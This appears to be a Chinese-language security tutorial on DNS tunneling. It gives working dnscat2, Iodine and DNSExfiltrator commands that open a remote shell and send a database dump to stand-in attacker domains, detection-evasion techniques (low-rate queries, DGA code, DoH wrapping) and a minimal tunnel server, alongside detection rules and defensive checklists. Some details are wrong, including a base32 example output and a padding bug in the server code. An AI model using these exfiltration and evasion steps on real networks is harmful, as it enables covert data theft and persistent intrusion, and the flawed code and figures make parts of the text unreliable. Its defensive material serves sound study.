




## 案例七：DNS隧道隐蔽通信

DNS隧道（DNS Tunneling）是一种利用DNS协议传输非DNS数据的隐蔽通信技术。由于DNS是互联网基础设施中最基础、最不可能被完全封锁的协议，攻击者将其作为C2（Command and Control）通信通道，可以在高度受限的网络环境中建立持久的双向数据链路。本案例从协议原理出发，完整覆盖DNS隧道的构建、检测与防御。

### DNS协议基础回顾

要理解DNS隧道，必须先理解DNS查询和响应的数据结构。

#### DNS报文结构

DNS报文由5个固定段组成：

| 段名 | 大小 | 说明 |
|------|------|------|
| Header | 12字节 | 标识符、标志位、各段计数 |
| Question | 可变 | 查询名（QNAME）、查询类型（QTYPE）、查询类（QCLASS） |
| Answer | 可变 | 响应资源记录（RR） |
| Authority | 可变 | 权威名称服务器记录 |
| Additional | 可变 | 附加信息 |

DNS隧道利用的核心字段是 **QNAME**（查询域名）和 **Answer RR**（响应数据）。QNAME最大长度253字节，单个标签（label）最长63字节。理论上，一次DNS查询可以在域名中嵌入约200字节的有效数据。

#### DNS记录类型与隧道容量

| 记录类型 | 单次响应最大数据 | 适用场景 |
|----------|------------------|----------|
| A | 4字节（IPv4地址） | 低带宽命令回传 |
| AAAA | 16字节（IPv6地址） | 略高于A记录 |
| CNAME | ~253字节 | 中等带宽，隐蔽性好 |
| TXT | 理论65535字节，实际常见4096字节 | 高带宽数据传输，最常用 |
| MX | ~253字节 | 隐蔽性好，但解析路径复杂 |
| NULL | 理论65535字节 | 原始二进制传输，但常被过滤 |
| SRV | ~253字节 | 较少使用，检测规则覆盖不足 |

TXT记录是DNS隧道最常用的载体，因为单条记录可承载数千字节数据，且TXT查询在正常业务中也频繁出现（SPF、DKIM、DMARC等邮件验证），容易混入正常流量。

#### DNS隧道的通信模型



这个模型的关键特征是：**所有通信都伪装成合法的DNS查询和响应**，流量经过递归DNS服务器中转，攻击者只需控制权威DNS服务器即可。受控主机无需直接与C2服务器建立TCP连接，这是DNS隧道能够穿透防火墙的根本原因。

### 攻击原理深度解析

#### 数据编码机制

DNS域名只能包含字母、数字和连字符，因此二进制数据必须先编码。常用的编码方案：

**Base32编码（最常用）**

将原始数据每5位映射到32个字符（a-z, 2-7），产生只有小写字母和数字的字符串，与域名规则天然兼容。

```python
import base64

def encode_to_subdomain(data: bytes) -> str:
    """将数据编码为合法的DNS子域名"""
    encoded = base64.b32encode(data).decode('ascii').lower()
    # 移除填充字符 '='
    encoded = encoded.rstrip('=')
    # 按63字符分段（DNS标签最大长度）
    labels = [encoded[i:i+63] for i in range(0, len(encoded), 63)]
    return '.'.join(labels)

def decode_from_subdomain(subdomain: str) -> bytes:
    """从DNS子域名解码原始数据"""
    encoded = subdomain.replace('.', '').upper()
    # 补齐Base32填充
    padding = (8 - len(encoded) % 8) % 8
    encoded += '=' * padding
    return base64.b32decode(encoded)

# 示例
data = b"whoami"
encoded = encode_to_subdomain(data)
print(f"编码结果: {encoded}.evil.com")
# 输出: nruqeyy.evil.com

decoded = decode_from_subdomain(encoded)
print(f"解码结果: {decoded}")
# 输出: b'whoami'
```

**Base64编码**

虽然Base64包含 `+` 和 `/`（不合法域名字符），但可以用 `+` → `-`、`/` → `_` 替换，或直接使用Base64-URL变体。Base64比Base32编码效率高约16%。

**十六进制编码**

最简单但效率最低，每个字节变成2个十六进制字符（0-9, a-f），编码膨胀率100%。

**二进制直接编码**

部分工具直接使用CNAME/A/AAAA记录的原始二进制字段存储数据，效率最高但兼容性差。

#### 请求-响应编码模式

DNS隧道有两种基本操作模式：

**直出模式（Direct-out）**

受控主机通过QNAME上传数据，DNS响应仅作为确认通道（不携带实际命令）。适用于数据外泄场景。

```text
# 上传文件内容的前200字节
[data_base32].file_id.session_id.evil.com  TXT

# 服务器响应一个预设确认
T "ACK"

# 继续上传下一段
[data_base32].offset.session_id.evil.com  TXT
```

**双向模式（Bi-directional）**

QNAME携带上行数据，Answer RR携带下行命令。C2服务器通过TXT记录返回shell命令、文件片段或配置更新。

```text
# 上行：发送命令执行结果
result_base32.cmd_id.session_id.evil.com  TXT

# 下行：服务器返回新命令（在TXT响应中）
T "bHMgLWxhIC9ldGMv"    # base64("ls -la /etc/")
```

#### 隧道协议设计

成熟的DNS隧道工具在原始编码之上还实现了一层传输协议，处理分片、重组、确认、重传等问题：



核心协议要素：

| 要素 | 实现方式 | 说明 |
|------|----------|------|
| 会话标识 | 域名前缀中的UUID或随机字符串 | 区分多个并发隧道 |
| 序列号 | 域名中的递增序号 | 保证数据有序重组 |
| 校验和 | CRC32或MD5前缀 | 检测传输错误 |
| 确认机制 | 响应中的ACK标志或特定IP | 逐片确认或滑动窗口 |
| 心跳 | 定时发送保活查询 | 维持NAT映射和会话状态 |
| 加密 | AES/ChaCha20加密后再编码 | 防止内容被中间人读取 |

### 主流DNS隧道工具实战

#### 工具对比

| 工具 | 语言 | 传输协议 | 加密 | 带宽 | 适用场景 |
|------|------|----------|------|------|----------|
| Iodine | C | IP-over-DNS | 无 | 较高 | 创建完整的IP隧道，可承载任意流量 |
| dnscat2 | Ruby | 自定义C2协议 | 加密 | 中等 | C2通信，交互式shell |
| DNSExfiltrator | Go | 自定义 | AES | 中等 | 数据外泄专用 |
| dns2tcp | C | TCP-over-DNS | 无 | 中等 | TCP端口转发 |
| Cobalt Strike DNS Beacon | Java | 自定义 | AES | 低 | 红队C2框架集成 |

#### 实战一：使用dnscat2建立C2隧道

**环境准备**

```bash
# 攻击者服务器（Linux）
sudo apt update
sudo apt install ruby ruby-dev gcc make
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
sudo gem install bundler
sudo bundle install

# 域名配置：evil.com
# 在域名注册商处添加NS记录：
# tunnel.evil.com  NS  ns1.attacker-server.com
# ns1.attacker-server.com  A  <攻击者服务器IP>
```

域名配置是最关键的前置步骤。必须将一个子域（如 `tunnel.evil.com`）的NS记录指向攻击者控制的DNS服务器。这样所有发往 `*.tunnel.evil.com` 的查询都会被递归DNS服务器转发到攻击者的dnscat2服务器。

```bash
# 验证NS记录配置
dig NS tunnel.evil.com
# 应返回：tunnel.evil.com.  IN  NS  ns1.attacker-server.com.

# 验证权威服务器可达
dig TXT test.tunnel.evil.com @ns1.attacker-server.com
```

**启动服务器**

```bash
# 启动dnscat2服务端
sudo ruby dnscat2.rb tunnel.evil.com \
  --secret=mysecretpassword \
  --security=encrypted \
  --dns=port=53 \
  --max-retransmits=5 \
  --cache=open

# 参数说明：
# tunnel.evil.com    - 隧道域名（所有子域名查询都会到达此服务器）
# --secret           - 共享密钥，用于加密通信
# --security=encrypted - 启用加密（默认明文，生产环境必须开启）
# --dns=port=53      - 监听53端口（需要root权限）
# --max-retransmits  - 最大重传次数
# --cache=open       - 关闭DNS缓存以获取实时查询
```

服务端启动后进入交互式命令行，等待客户端连接。

**客户端连接**

```bash
# Windows客户端（编译后的dnscat2-client.exe）
dnscat2-client.exe --secret=mysecretpassword --dns=server=tunnel.evil.com,port=53

# Linux客户端
./dnscat2-client --secret=mysecretpassword --dns=server=tunnel.evil.com,port=53
```

客户端连接成功后，服务端会显示新会话：

```text
New session established: 1
dnscat2>
```

**交互式操作**

```bash
# 在dnscat2服务端
# 查看所有会话
dnscat2> sessions

# 进入会话
dnscat2> session -i 1

# 获取交互式shell
command (session 1) > shell
# 创建新的shell会话
New shell created: 2

# 进入shell会话
command (session 1) > session -i 2

# 现在获得了目标主机的命令行
C:\Users\victim> whoami
desktop-abc\victim

C:\Users\victim> ipconfig
# ... 网络配置信息
```

**文件操作**

```bash
# 在shell会话中上传文件
command > upload /tmp/payload.exe C:\temp\payload.exe

# 下载文件
command > download C:\Users\victim\Documents\secret.docx /tmp/secret.docx
```

**DNS查询流量样本**

在整个通信过程中，网络层看到的是这样的DNS流量：

```text
# 客户端发送命令结果（编码在域名中）
查询: 4e48526a5a475668.6332567a.0001.0000.tunnel.evil.com. TXT
响应: "AQIDBAUGBwgJCgsMDQ4PEBESExQVFhcYGRobHB0e" (TXT)

# 服务器返回命令（编码在TXT响应中）
查询: 68656c6c6f.0002.0000.tunnel.evil.com. TXT  
响应: "bHMgLWxhIC9ldGMv" (TXT, base64="ls -la /etc/")

# 心跳保活
查询: 70696e67.ffff.0000.tunnel.evil.com. TXT
响应: "706f6e67" (TXT, hex="pong")
```

#### 实战二：使用Iodine建立IP隧道

Iodine在DNS之上建立一个完整的IP隧道，可以承载任意TCP/UDP流量，相当于通过DNS实现VPN。

```bash
# 服务端（攻击者）
sudo iodined -f -c -P mypassword 10.0.0.1 tunnel.evil.com
# -f 前台运行
# -c 禁止检查客户端IP（允许NAT后的客户端）
# -P 密码
# 10.0.0.1 隧道IP段的服务器地址
# tunnel.evil.com 隧道域名

# 客户端（受控主机）
sudo iodine -f -P mypassword tunnel.evil.com
# 连接成功后客户端获得隧道IP（如10.0.0.2）

# 验证隧道
ping 10.0.0.1   # 通过DNS隧道ping服务端

# 通过隧道访问内网
ssh user@192.168.1.100 -o ProxyCommand='ncat --proxy-type socks5 --proxy 10.0.0.1:1080 %h %p'
```

Iodine创建的虚拟网卡 `dns0` 可以使用标准网络工具，所有流量都会被封装在DNS查询中。

#### 实战三：数据外泄专用工具DNSExfiltrator

当目标不是建立持久C2通道，而是快速窃取数据时，DNSExfiltrator更高效：

```powershell
# 攻击者监听端
python3 DNSExfiltrator.py -d tunnel.evil.com -r <resolv.conf> -p mypassword

# 受控主机（PowerShell）
.\DNSExfiltrator.ps1 -Command "Exfiltrate" `
  -Domain "tunnel.evil.com" `
  -Subdomains "data" `
  -Password "mypassword" `
  -FilePath "C:\sensitive\database_dump.sql" `
  -QueryType "TXT"

# 参数说明：
# -Domain       隧道域名
# -Subdomains   子域名前缀（增加隐蔽性）
# -Password     加密密码
# -FilePath     要外泄的文件路径
# -QueryType    DNS记录类型（TXT带宽最高）
```

外泄过程中，文件内容被AES加密后Base32编码，拆分为多段嵌入DNS查询域名。1MB文件大约需要5000-6000次DNS查询。

### 防御检测技术

#### 基于统计特征的检测

DNS隧道流量与正常DNS流量存在统计学差异：

| 特征 | 正常DNS | DNS隧道 |
|------|---------|---------|
| 域名长度 | 10-30字符 | 50-200+字符 |
| 子域名深度 | 2-3层 | 4-8层 |
| 单域名查询频率 | 低（缓存生效） | 高（每秒多次） |
| 查询类型分布 | A/AAAA为主 | TXT/CNAME/MX为主 |
| 域名熵值 | 低（单词组成） | 高（编码后随机字符） |
| 会话持续时间 | 短（秒级） | 长（分钟到小时） |
| 请求/响应大小比 | 小请求，大响应 | 请求和响应都可能很大 |
| TTL | 正常（分钟到天） | 异常短（接近0） |

**域名熵值计算**

正常英文域名的Shannon熵值通常在2.5-3.5之间，而Base32/Base64编码后的域名熵值通常在4.0-5.0之间。

```python
import math
from collections import Counter

def shannon_entropy(s: str) -> float:
    """计算字符串的Shannon熵"""
    if not s:
        return 0.0
    freq = Counter(s)
    length = len(s)
    entropy = -sum(
        (count / length) * math.log2(count / length) 
        for count in freq.values()
    )
    return round(entropy, 3)

# 正常域名
print(shannon_entropy("www.google.com"))          # ~2.45
print(shannon_entropy("mail.example.com"))         # ~2.75

# 隧道域名（编码后）
print(shannon_entropy("nruqeyy4qtgq.evil.com"))   # ~3.20
print(shannon_entropy("a7bx92kp5mnq8w3f.tunnel.evil.com"))  # ~3.85
```

#### 基于规则的检测（Snort/Suricata）

```bash
# Snort规则：检测异常长域名的TXT查询
alert dns any any -> any any (
    msg:"DNS Tunnel Suspect - Long TXT Query";
    dns.query; content:".evil.com"; 
    dns_query; pcre:"/^[a-z0-9]{40,}\./i";
    dns.rrtype:16;
    classtype:policy-violation;
    sid:1000001; rev:1;
)

# Suricata规则：检测高熵子域名
alert dns any any -> any any (
    msg:"DNS Tunnel Suspect - High Entropy Subdomain";
    dns.query; 
    pcre:"/^[a-z2-7]{30,}\./i";
    dns.rrtype:16;
    threshold:type both, track by_src, count 10, seconds 60;
    classtype:policy-violation;
    sid:1000002; rev:1;
)

# 检测同一源IP的高频TXT查询
alert dns any any -> any any (
    msg:"DNS Tunnel Suspect - High Frequency TXT Queries";
    dns.rrtype:16;
    threshold:type both, track by_src, count 50, seconds 60;
    classtype:policy-violation;
    sid:1000003; rev:1;
)
```

#### 基于机器学习的检测

对于更隐蔽的DNS隧道（如使用低熵编码或模仿正常域名的变体），规则检测可能不足。机器学习方案通常使用以下特征：

```python
import numpy as np
from sklearn.ensemble import RandomForestClassifier
from sklearn.model_selection import train_test_split

def extract_features(domain: str) -> list:
    """从域名提取隧道检测特征"""
    # 去掉TLD和主域名
    parts = domain.split('.')
    subdomain = '.'.join(parts[:-2]) if len(parts) > 2 else ''
    
    return [
        len(domain),                           # 域名总长度
        len(subdomain),                        # 子域名长度
        len(parts),                            # 域名层数
        shannon_entropy(subdomain),            # 子域名熵值
        sum(c.isdigit() for c in subdomain) / max(len(subdomain), 1),  # 数字比例
        max((len(p) for p in parts), default=0),  # 最长标签长度
        len(set(subdomain)),                   # 字符种类数
        subdomain.count('-'),                  # 连字符数量
        # 字符频率分布
        *np.bincount([ord(c) - 97 for c in subdomain.lower() if c.isalpha()], minlength=26)[:10],
    ]

# 训练数据：
# - 正样本：已知DNS隧道域名（从dnscat2/iodine流量中提取）
# - 负样本：Alexa Top 10K域名 + 企业内部DNS日志
# 
# 典型准确率：RandomForest > 97%，误报率 < 0.5%
```

#### 网络层面的防御策略

**策略一：限制DNS出口**

```text
# 防火墙规则：只允许内部DNS服务器对外查询
iptables -A OUTPUT -p udp --dport 53 -s <内部DNS服务器IP> -j ACCEPT
iptables -A OUTPUT -p udp --dport 53 -j DROP
iptables -A OUTPUT -p tcp --dport 53 -j DROP

# 禁止DoH/DoT（DNS over HTTPS/TLS）绕过
iptables -A OUTPUT -p tcp --dport 443 -d <已知DoH服务器IP列表> -j DROP
iptables -A OUTPUT -p tcp --dport 853 -j DROP
```

**策略二：DNS请求代理与审计**

部署DNS代理（如Pi-hole、Bind RPZ），对所有DNS请求进行日志记录和策略检查：

```text
# Bind RPZ (Response Policy Zone) 配置
zone "rpz.local" {
    type master;
    file "rpz.db";
    allow-query { none; };
    response-policy { zone "rpz.local"; };
};

# rpz.db 内容
# 屏蔽已知隧道工具域名
tunnel.evil.com     CNAME   .
*.tunnel.evil.com   CNAME   .

# 对TXT查询施加限制（超过阈值的域名自动拦截）
```

**策略三：DNS-over-HTTPS强制**

将所有DNS流量强制通过企业内部的DoH网关，防止客户端绕过本地DNS策略：

```ini
# 客户端策略（Windows GPO / Linux systemd-resolved）
# 强制使用企业DoH网关
[Resolve]
DNS=https://dns-gateway.internal.company.com/dns-query
DNSOverTLS=yes
FallbackDNS=
# 禁止回退到非加密DNS
```

### 高级绕过技术与反检测

DNS隧道技术在持续进化，以下是攻击者用来绕过检测的高级手段：

#### 低带宽隐蔽模式

放弃高吞吐量，将带宽降到极低水平（每分钟1-2次查询），使统计特征消失在正常噪音中：

```bash
# dnscat2的低速模式
# 服务端设置查询间隔
dnscat2> set query_interval 30  # 每30秒一次查询

# 客户端限制
./dnscat2-client --dns=server=tunnel.evil.com --delay=30000  # 30秒间隔
```

此模式下带宽极低（约10-20字节/分钟），但足以维持心跳和传递关键命令。

#### 域名生成算法（DGA）

使用DGA动态生成查询域名，使基于域名黑名单的检测失效：

```python
import hashlib
import time

def generate_tunnel_domains(seed: str, count: int = 100) -> list:
    """基于时间和种子生成看起来正常的域名"""
    domains = []
    # 使用日期作为盐值
    date_salt = time.strftime("%Y%m%d")
    
    # 常见单词列表（让域名看起来正常）
    prefixes = ["api", "cdn", "mail", "web", "app", "img", "static", "data"]
    suffixes = ["service", "cloud", "platform", "system", "network"]
    
    for i in range(count):
        h = hashlib.sha256(f"{seed}{date_salt}{i}".encode()).hexdigest()[:8]
        p = prefixes[i % len(prefixes)]
        s = suffixes[i % len(suffixes)]
        # 组合出看似正常的域名
        domain = f"{p}-{s}-{h[:4]}.evil.com"
        domains.append(domain)
    
    return domains
```

#### 利用合法DNS服务作为中转

不使用自己的域名，而是利用公共DNS API（如Cloudflare Workers、AWS Lambda@Edge）作为C2中转：



这种方式的检测难度极高，因为DNS查询的目标是合法的Cloudflare域名，流量特征完全正常。

#### 利用DoH/DoT加密DNS

将DNS隧道封装在DNS-over-HTTPS或DNS-over-TLS中，使中间的网络设备无法检查DNS查询内容：

```bash
# 使用curl通过DoH发送隧道查询
curl -s "https://dns.google/resolve?name=$(echo -n 'data' | base32).tunnel.evil.com&type=TXT" \
  -H "Accept: application/dns-json"

# 使用dnscat2 + DoH代理
./dnscat2-client --dns=server=tunnel.evil.com --proxy=https://dns.google
```

### 真实案例分析

#### 案例一：APT组织使用DNS隧道窃取数据

2018年，安全研究人员发现APT组织 **OilRig**（又名APT34）在针对中东政府机构的攻击中使用了DNS隧道工具 **ALMA Communicator**。

**攻击链路：**



**流量特征：**
- 查询域名模式：`[hex编码].basefreedns.com`
- 使用TXT记录和A记录交替通信
- 每次查询间隔30-120秒
- 每日外泄数据量约50-200KB
- 持续活动时间超过3个月未被发现

**教训：** 仅依赖域名黑名单无法检测使用新注册域名的DNS隧道。必须结合统计特征和行为分析。

#### 案例二：内部渗透测试中的DNS隧道

某企业在渗透测试中，测试人员从受限的办公VLAN通过DNS隧道访问了隔离的数据库服务器：

```text
办公VLAN → DNS服务器 → 数据库VLAN
          ↑
     DNS隧道穿透
```

**发现：**
- 办公VLAN只允许DNS出站（UDP/53）
- DNS服务器同时连接数据库VLAN
- 使用Iodine建立IP隧道，通过DNS服务器跳转
- 成功访问数据库VLAN的内部服务

**修复措施：**
1. DNS服务器部署在独立的管理VLAN
2. 数据库VLAN禁止来自DNS服务器的主动连接
3. 部署DNS请求深度检测（DNS DPI）
4. 限制DNS响应中的TXT记录大小

### 常见误区与纠正

| 误区 | 正确认识 |
|------|----------|
| "封禁UDP/53就能防DNS隧道" | 攻击者可以使用TCP/53、DoH(443)、DoT(853)等多种传输方式 |
| "只有TXT记录能做隧道" | A、CNAME、MX、NULL等记录类型都可以，只是效率不同 |
| "DNS隧道很慢，不实用" | 对于C2命令传递和小文件外泄，几十KB/s已足够；Iodine可达数百KB/s |
| "黑名单域名能防住" | 攻击者可以使用DGA、合法域名子域、公共DNS服务绕过 |
| "DNS日志太多了没法分析" | 通过熵值过滤+聚合统计，可以将可疑查询缩小到人工可审查的范围 |
| "加密DNS(DoH)能防隧道" | DoH防止的是中间人检测，对隧道行为本身无防御作用，反而可能成为掩护 |

### 防御检查清单

```text
□ DNS出口控制
  □ 仅允许内部DNS服务器对外查询
  □ 禁止终端直连外部DNS（包括DoH/DoT）
  □ 防火墙规则记录所有DNS出站流量

□ DNS请求审计
  □ 部署DNS日志收集（所有查询记录）
  □ 设置告警：单IP每分钟>20次TXT查询
  □ 设置告警：域名长度>50字符的查询
  □ 设置告警：子域名熵值>4.0的查询
  □ 设置告警：同一域名下的查询次数>100/小时

□ DNS策略强化
  □ 限制TXT记录响应大小（如最大512字节）
  □ 对非常见域名的TXT查询增加人工审核
  □ 部署RPZ屏蔽已知隧道域名
  □ DNS缓存TTL最小值设为300秒（减少高频刷新）

□ 终端检测
  □ EDR规则：检测创建DNS套接字的非DNS进程
  □ 监控异常的DNS客户端（非系统DNS服务的进程发起DNS查询）
  □ HIDS检测dnscat2/iodine/dns2tcp进程和文件

□ 网络架构
  □ DNS服务器部署在独立VLAN
  □ 数据库VLAN禁止来自DNS服务器的直接连接
  □ 实施DNS请求来源白名单
```

### 进阶：构建自己的DNS隧道

对于安全研究人员，理解如何从零构建DNS隧道有助于深入理解防御要点。

```python
"""
极简DNS隧道演示（仅用于学习和授权测试）
不是生产工具，缺少加密、分片、重传等功能
"""
import socket
import base64
import struct
import threading

class MiniDNSTunnelServer:
    """DNS隧道服务端"""
    
    def __init__(self, domain: str, port: int = 53):
        self.domain = domain
        self.port = port
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        self.sock.bind(('0.0.0.0', port))
        self.pending_commands = []
    
    def parse_dns_query(self, data: bytes) -> str:
        """从DNS报文提取QNAME"""
        # 跳过Header（12字节）
        offset = 12
        labels = []
        while data[offset] != 0:
            length = data[offset]
            offset += 1
            labels.append(data[offset:offset+length].decode('ascii'))
            offset += length
        return '.'.join(labels)
    
    def build_dns_response(self, query_id: bytes, qname: str, txt_data: str) -> bytes:
        """构造DNS TXT响应"""
        response = bytearray()
        # Header: QR=1, AA=1, RD=1, RA=1
        response += query_id
        response += b'\x85\x80'  # Flags
        response += b'\x00\x01'  # QDCOUNT=1
        response += b'\x00\x01'  # ANCOUNT=1
        response += b'\x00\x00'  # NSCOUNT
        response += b'\x00\x00'  # ARCOUNT
        
        # Question section（回显）
        response += self._encode_qname(qname)
        response += b'\x00\x10'  # QTYPE=TXT
        response += b'\x00\x01'  # QCLASS=IN
        
        # Answer section
        response += b'\xc0\x0c'  # 指向Question中的域名（压缩指针）
        response += b'\x00\x10'  # TYPE=TXT
        response += b'\x00\x01'  # CLASS=IN
        response += b'\x00\x00\x00\x3c'  # TTL=60秒
        
        txt_bytes = txt_data.encode('ascii')
        rdata = bytes([len(txt_bytes)]) + txt_bytes
        response += struct.pack('>H', len(rdata))
        response += rdata
        
        return bytes(response)
    
    def _encode_qname(self, domain: str) -> bytes:
        """编码域名为DNS格式"""
        result = bytearray()
        for label in domain.rstrip('.').split('.'):
            result += bytes([len(label)]) + label.encode('ascii')
        result += b'\x00'
        return bytes(result)
    
    def run(self):
        print(f"[*] DNS隧道服务端监听 0.0.0.0:{self.port}")
        while True:
            data, addr = self.sock.recvfrom(512)
            qname = self.parse_dns_query(data)
            
            # 提取子域名中的数据
            parts = qname.replace(f'.{self.domain}', '').split('.')
            if len(parts) >= 1:
                encoded_data = ''.join(parts[:-1])  # 去掉会话标识
                try:
                    decoded = base64.b32decode(encoded_data.upper() + '=' * (8 - len(encoded_data) % 8) % 8)
                    print(f"[+] 收到数据 ({addr[0]}): {decoded.decode('utf-8', errors='replace')}")
                except Exception:
                    pass
            
            # 返回响应（可携带下行命令）
            cmd = "ACK"
            if self.pending_commands:
                cmd = base64.b32encode(self.pending_commands.pop(0).encode()).decode()
            
            response = self.build_dns_response(data[:2], qname, cmd)
            self.sock.sendto(response, addr)

if __name__ == '__main__':
    server = MiniDNSTunnelServer('tunnel.evil.com')
    server.run()
```

这段代码展示了DNS隧道的核心机制：将数据嵌入QNAME，从Answer中提取响应。生产级工具在此基础上增加了加密、分片、重组、确认、心跳等功能。

### 总结

DNS隧道利用了DNS协议作为互联网基础服务的特殊地位——它几乎不会被完全封锁。理解DNS隧道的完整知识体系对于网络安全从业者至关重要：

- **原理层面**：DNS报文结构中的QNAME和Answer RR是数据承载的核心字段，TXT记录因容量大、查询常见而成为首选
- **工具层面**：dnscat2适合交互式C2，Iodine适合IP隧道，DNSExfiltrator适合批量数据外泄
- **检测层面**：域名长度、子域名熵值、查询频率、记录类型分布是四个关键检测维度，规则+ML组合效果最佳
- **防御层面**：DNS出口控制是最有效的第一道防线，配合请求审计和终端检测形成纵深防御
- **对抗层面**：低速模式、DGA、合法DNS服务中转、DoH封装是当前主要的绕过技术，防御方需要持续更新检测策略
